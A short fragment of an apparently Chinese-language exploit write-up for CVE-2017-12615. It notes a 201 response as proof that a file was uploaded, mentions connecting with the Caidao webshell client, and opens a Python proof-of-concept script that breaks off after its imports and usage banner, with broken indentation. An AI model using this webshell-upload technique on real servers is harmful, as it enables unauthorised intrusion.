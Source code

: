 ![image](../img/6bd1f926fe2df7244b3f1515455c466d.png)

我们可以看到响应码为201，说明成功创建，我们用菜刀连接看一下：

![image](../img/43fc5b6ab61d497783db0f13c114ef2d.png)

### poc

```
cve-2017-12615_cmd.py 
```

```
#!/usr/bin/env python
# coding:utf-8

import requests

import sys

import time

if len(sys.argv)!=2:

print(‘±---------------------------------------------------------+’)

print(’+ USE: python <filename> <url>                             +’)

```